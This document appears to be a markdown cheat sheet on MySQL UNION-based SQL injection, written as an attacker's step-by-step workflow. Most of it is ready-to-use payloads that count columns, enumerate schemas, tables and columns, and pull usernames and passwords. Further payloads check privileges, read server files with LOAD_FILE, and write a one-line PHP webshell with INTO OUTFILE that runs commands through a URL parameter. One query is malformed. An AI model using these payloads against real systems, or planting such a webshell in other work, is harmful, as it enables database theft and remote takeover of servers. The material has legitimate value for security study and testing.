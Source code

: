 # Introduction

SQL Injection (SQLI) uses poorly configured and/or implemented web forms which interact with an underlying database.  Essentially, the relevant database can be queried by manipulating the input box on web form.

# Workflow

Enumeration for SQL injection follows the following high-level steps;

1. Database Mangement System (DBMS) fingerprinting;
2. Identify databases;
3. Identify tables in databases;
4. Identify columns in tables; and
5. Extract data from tables;

SQLI can be used to harvest information from databases and to interact wit the host operating system.  This can include reading and writing files both with and external to the database it's self i.e. the file system and creating a shell.

Once the DBMS has been identified, we need to understand how many columns are included in the systems SQL queary.  This is because our ‘UNION SELECT’ statements have to return  the same number.  We do this by using the ‘ORDER BY’ statement until an error is received.  We know that the number of columns is one less than the one that caused error.  

``` sql 

-- Identify the number of columns to form valid injection strings

ORDER BY 3 -- -

```

i.e if an error that there is no column 5 then we know that there are only 4 columns.  All subseqent ‘UNION SELECT’  statements need to return 4 columns.

OBTAIN A LIST OF DATABASES (4 column return)

Once we have identified the type of DBMS and the number of columns (4) we can begin enumerating.  The first step is to systematically identify databases, tables and columns, test for user privliges and test DMBS file system read and write. and finally establishing a webshell.

# Examples

The following code snippets demonstrate several SQL Injection techniques:

## List databases
``` sql

-- List available databases

 ' UNION SELECT 1, schema_name, 3, 4 FROM INFORMATION_SCHEMA.SCHEMATA -- -

```

## List tables
``` sql

-- List tables within a databse

' UNION SELECT 1, TABLE_NAME, TABLE_SCHEMA, 4, FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='db name' -- -

```

## List columns
``` sql

-- list columns within a table

 ' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='table name'-- -
 
```

## Extract data
``` sql

-- Extract data from tables

 ' UNION SELECT 1, username, password, 4 FROM db.table

```

## MySQL version
``` sql

-- Check the version of the MySQL database

 ' UNION SELECT 1, @@version, 3, 4 -- -

```

## Indentify the current DBMS user
``` sql

-- Identify the current user

 ' UNION SELECT 1, user(),3,4-- -

```

## Check user privileges
``` sql

-- Check user privileges

 ' UNION SELECT 1, super_priv, 3,4 FROM mysql.user-- -

 ' -- disregard closing single quote

 -- Add a WHERE clause for a specific user

 ' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user='root'-- -

```

## Reading data from a file
``` sql

-- Reading data from a file on the target system

 ' UNION SELECT 1, LOAD_FILE('path to file'), 3, 4-- -

```

## Writing data to a file and creating a webshell

``` sql

--  Writing data to a file

 ' UNION SELECT 1, '<?PHP system($_REQUEST[0]) ?>',3, 4 INTO OUTFILE 'shell.php'
 
 ' -- disregard closing single quote

 -- this will write data into a file named shell.php at the /var/www/html/ path

```

We can now execute shell commands via the URL.  By adding the following url structure we can execute commands.

``` bash

ip:port/shell.php?0=id

# This executes the id command.  id can be replaced with other commands
# for example ls, pwd, mkdir, find e.t.c.

```

